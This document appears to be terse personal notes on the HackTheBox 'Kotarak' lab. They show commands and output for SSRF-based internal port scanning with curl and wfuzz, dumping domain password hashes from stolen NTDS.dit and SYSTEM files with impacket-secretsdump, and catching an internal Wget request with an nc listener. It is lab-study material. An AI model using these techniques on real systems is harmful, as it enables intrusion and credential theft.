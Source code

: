 https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html
https://www.youtube.com/watch?v=38e-sxPWiuY

### Enum on SSRF
❯ curl http://10.129.1.117:60000/url.php?path=http://localhost:22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.
                                                                                                                                                                   
❯ curl http://10.129.1.117:60000/url.php?path=http://localhost:13572
EMPTY RES

for i in {0..65535}; do 
  res=$(curl -s http://10.129.1.117:60000/url.php?path=http://localhost:${i});
  len=$(echo $res | wc -w); 
  if [ "$len" -gt "0" ]; then
    echo -n "${i}: "; 
    echo $res | tr -d "\r" | head -1 | cut -c-100; 
  fi;
done

wfuzz -c -z range,1-65535 http://10.129.1.117:60000/url.php?path=http://localhost:FUZZ

--hc/hl/hw/hh N[,N]+      : Hide responses with the specified code/lines/words/chars (Use BBB for taking values from baseline)

wfuzz -c -z range,1-65535 --hl 2 http://10.129.1.117:60000/url.php?path=http://localhost:FUZZ

### Dump ntds
```
❯ impacket-secretsdump -ntds -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
❯ cp 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit ntds.dit
                                                                                                                                                                            
❯ cp 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin system.bin
                                                                                                                                                                            
❯ impacket-secretsdump -ntds ntds.dit -system system.bin LOCAL
```

```
impacket-secretsdump -ntds ntds.dit -system system.bin LOCAL | tee addump
cat addump | grep ":::" | cut -d: -f4
cat addump | cut -d: -f4
# same as the awk
awk -F: '{print $4}' addump

The reason of this is that the crackstation supports multiple lines

# Try if it's a windows box that can just use those hash
arp -a 
? (10.0.3.133) at 00:16:3e:c9:bd:b1 [ether] on lxcbr0
? (10.129.0.1) at 00:50:56:b9:b2:02 [ether] on eth0
```
It confirmed the Wget at 10.0.3.133 should be exploitable

### Double confirm
`ping -c 1 10.0.3.133`
```
1 packets transmitted, 1 received, 0% packet loss, time 0ms
```

### Listening to it
```
atanas@kotarak-dmz:/tmp/ftptest$ authbind nc -lnvp 80

│Listening on [0.0.0.0] (family 0, port 80)
│Connection from [10.0.3.133] port 80 [tcp/*] accepted (family 2, sport 48142)
│GET /archive.tar.gz HTTP/1.1
│User-Agent: Wget/1.16 (linux-gnu)
│Accept: */*
│Host: 10.0.3.1
│Connection: Keep-Alive
```

### Set up stty with tmux
stty rows 37
https://youtu.be/38e-sxPWiuY?t=1550


